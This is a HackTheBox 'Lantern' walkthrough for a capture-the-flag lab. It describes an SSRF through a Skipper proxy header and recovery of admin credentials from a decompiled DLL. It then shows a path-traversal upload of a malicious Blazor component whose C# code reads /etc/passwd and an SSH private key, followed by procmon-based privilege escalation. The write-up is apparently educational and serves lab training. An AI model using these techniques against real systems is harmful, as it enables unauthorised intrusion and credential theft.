

# Lantern.htb

HackTheBox | Medium | Week 3 | Season 6 

## Recon

### Scanning and Enumeration

#### Rustscan 

```bash
rustscan -a 10.129.94.69 
```


Rustscan found three open ports SSH, HTTP and 3000.

#### WhatWeb Scan

```bash
whatweb http://lantern.htb/ -v   
```


- [Skipper Proxy ExploitDB](https://www.exploit-db.com/exploits/51111)

http://lantern.htb seems like an IT company where we can upload a resume in http://lantern.htb/vacancies

- http://lantern.htb:3000 has some king of lanternLogin page.


- Tried injecting RCE embedded in PDF to get a shell but failed.
- seems like I need to focus on port 3000.

Found these endpoints while browsing console log of http://lantern.htb:3000

```js
<script src="_framework/blazor.server.js"></script>
```

```txt
Information: WebSocket connected to ws://lantern.htb:3000/_blazor?id=zuxDM5hIB0lArsgccqNQkw.
```
#### Burp Extension
- After Googling about Blazor exploits i found this Burpsuite Extension
```html
https://www.aon.com/cyber-solutions/aon_cyber_labs/new_burp_suite_extension_blazortrafficprocessor/
```

Took a hint from official HackTheBox discussion thread
- SSRF on port 80:3000
- on GET /_framework/blazor.boot.json are all blazor dlls,
via /_framework/InternaLantern.dll you can download them

```
https://www.exploit-db.com/raw/51111
```
- putting the hint on burp and intercept the response with skipper proxy
```
GET /_framework/InternaLantern.dll HTTP/1.1 
Host: lantern.htb
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/125.0.6422.60 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
X-Skipper-Proxy: http://127.0.0.1:5000 //HINT from HTB Forum
Referer: http://lantern.htb/
Accept-Encoding: gzip, deflate, br
Accept-Language: en-GB,en-US;q=0.9,en;q=0.8
Connection: keep-alive
```

The ssrf works, download the dll file by requesting response in browser

#### Decompiling DLL File

After Downloading the DLL file in your machine browse it using Jetbrains DotPeek


Here in "InternaLanding.Pages/Internal" you will find base64 encoded employee details, convert it into text using [CyberChef](https://gchq.github.io/CyberChef)  

```base64
"U3lzdGVtIGFkbWluaXN0cmF0b3IsIEZpcnN0IGRheTogMjEvMS8yMDI0LCBJbml0aWFsIGNyZWRlbnRpYWxzIGFkbWluOkFKYkZBX1FAOTI1cDlhcCMyMi4gQXNrIHRvIGNoYW5nZSBhZnRlciBmaXJzdCBsb2dpbiE="
```

After decoding

```txt
System administrator, First day: 21/1/2024, Initial credentials admin:AJbFA_Q@925p9ap#22. Ask to change after first login!
```
- Got the credentials
```
admin:AJbFA_Q@925p9ap#22
```
Using these credentials in http://lantern.htb:3000/


#### Exploring Admin Dashboard

In the Upload content section we can upload any type of file


Will create and upload a tcp reverse shell and lets see it executes or not

#### Exploting .NET Components

install dotnet 6

```bash
sudo apt install dotnet-sdk-6
```

```bash
dotnet new console -c sedlyf
```
```bash
 dotnet add package Microsoft.AspNetCore.Components --version 6.0.0
```
Put the below code in the files

- - Program.cs
```C#
using Microsoft.AspNetCore.Components;
using Microsoft.AspNetCore.Components.Rendering;
using System.IO;

namespace sedlyf
{
    public class Component : ComponentBase
    {
        protected override void BuildRenderTree(RenderTreeBuilder builder)
        {
            base.BuildRenderTree(builder);

            //string file = File.ReadAllText("/etc/passwd");
            string file = File.ReadAllText("/home/tomas/user.txt"); //user flag
            //string file = File.ReadAllText("/home/tomas/.ssh/id_rsa");
            // ssh keypair
            builder.AddContent(0, file);
        }
    }
}
```


- Compile the code

```
dotnet build sedlyf.csproj -c Release
```

the DLL file will be saved in `bin/Release/net8.0/sedlyf.dll`

#### Exploiting     



can't load a dll from a different different directory than 

`/var/components`

but can upload a dll in that folder intercepting the filename of the dll  on the module upload and appending this


`../../../../../../opt/components/`

- Navigate to `lantern.htb:3000` `FileUpload` page

Start BurpSuite before you upload shell

after uploading you will get some values like 

```
Ú•€À·BeginInvokeDotNetFromJS•¡3À¬NotifyChangeÙª[[{"blob":{},"size":4608,"name":"../../../../../../opt/components/sedlyf.dll","id":1,"lastModified":"2024-08-19T20:11:07.452Z","contentType":"application/x-msdownload"}]]
```
select the values and navigate

rightclick > Extensions > Blazor Traffic Processor > Send Body to BTP tab


Now deserialize the input, modify the path to this, make sure the option is from Blazor -> Json in the top bar

The Final output will be like this

```
Ú•€À·BeginInvokeDotNetFromJS•¡3À¬NotifyChangeÙª[[{"blob":{},"size":4608,"name":"../../../../../../opt/components/sedlyf.dll","id":1,"lastModified":"2024-08-19T20:11:07.452Z","contentType":"application/x-msdownload"}]]
```


 Successful upload looks like this.


to execute your code type `<your shell name>` in the search bar


#### Capturing User Flag

Copy the SSH private key to a file i.e. `id_rsa`

```
chmod 600 id_rsa
```

```
ssh -i id_rsa tomas@lantern.htb
```


```
cat user.txt
```

* Captured the user flag!!!

### Privilage Escalation

lets check the mail 

```bash
cat /var/mail/$(whoami)
```


Checking ` /root/automation.sh`


no access here, till now the administrator is setted up `automation.sh` lets check if it is running or not

```bash
ps -aef | grep automation
```


and yes it is ongoing/ v 

Using procmon to intercept the data 

+ procmon is a tool designed for monitoring system calls or process activities.


```
sudo /usr/bin/procmon -p <Automation PID> -e write
```
wait for some time to completly execute `automation.sh` 

+ Press F6 to save, intercepted data into a database file
+ Press F9 to quit procmon

## OR

You can use this script to simply get .output file 

```bash
#!/bin/bash

# Get the PID of the current 'nano' process
OLD_PID=$(ps -ef | grep -i nano | grep -v grep | awk '{print $2}')

while true; do
    # Get the PID of the current 'nano' process (updated)
    NEWPID=$(ps -ef | grep -i nano | grep -v grep | awk '{print $2}')
    
    # Check if the PID has changed and is not empty
    if [ "$OLD_PID" != "$NEWPID" ] && [[ -n "$NEWPID" ]]; then
        # Output message indicating a new PID has been detected
        echo "We have a new PID! Old PID: $OLD_PID, New PID: $NEWPID"
        
        # Update OLD_PID to the new PID
        OLD_PID=$NEWPID
        
        # Run 'procmon' to monitor the new process
        sudo /usr/bin/procmon -p $NEWPID -e write -c nano$NEWPID.out
    fi
    
    # Wait for 5 seconds before checking again to reduce CPU usage
    sleep 5
done
```

Transfer db from tomas to local machine

```bash
scp -i id_rsa  tomas@lantern.htb:/path/to/nano10720.out nano10720.out
```


+ nano10720.out - filetype sqlite3 
